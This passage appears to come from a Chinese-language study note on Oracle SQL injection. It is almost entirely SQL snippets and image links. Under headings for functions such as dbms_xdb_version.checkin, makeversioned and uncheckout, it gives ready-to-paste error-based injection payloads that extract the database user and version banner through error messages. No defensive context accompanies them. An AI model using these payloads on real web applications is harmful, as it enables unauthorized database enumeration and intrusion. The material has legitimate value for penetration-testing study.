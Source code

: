 

### dbms_xdb_version.checkin()
```sql
select dbms_xdb_version.checkin((select user from dual)) from dual
```
![image.png](./Oracle 注入基础.assets/2023_05_19_10_40_58_WkcEuflN.png)



```sql
--payload
and (select dbms_xdb_version.checkin((select user from dual)) from dual) is not null--
```
![image.png](./Oracle 注入基础.assets/2023_05_19_10_40_58_PCZbE5h2.png)

![image.png](./Oracle 注入基础.assets/2023_05_19_10_40_58_gDiV38AP.png)



### dbms_xdb_version.makeversioned()
```sql
select dbms_xdb_version.makeversioned((select user from dual)) from dual
```
![image.png](./Oracle 注入基础.assets/2023_05_19_10_41_00_8VBNAwnE.png)



```sql
and (select dbms_xdb_version.makeversioned((select user from dual)) from dual) is not null
```
![image.png](./Oracle 注入基础.assets/2023_05_19_10_41_01_0WrFf7sp.png)



### dbms_xdb_version.uncheckout()
```sql
select dbms_xdb_version.uncheckout((select banner from sys.v_$version where rownum=1)) from dual
```
![image.png](./Oracle 注入基础.assets/2023_05_19_10_41_01_rf2GT0cZ.png)



```sql
-- payload
and (select dbms_xdb_version.uncheckout((select banner from sys.v_$version where rownum=1)) from dual) is not null
```
![image.png](./Oracle 注入基础.assets/2023_05_19_10_41_01_GSUbvwao.png)



### dbms_utility.sqlid_to_sqlhash()
```sql
SELECT dbms_utility.sqlid_to_sqlhash((select banner from sys.v_$version where rownum=1)) from dual
```
![image.png](./Oracle 注入基础.assets/2023_05_19_10_41_02_mt2ogFc8.png)
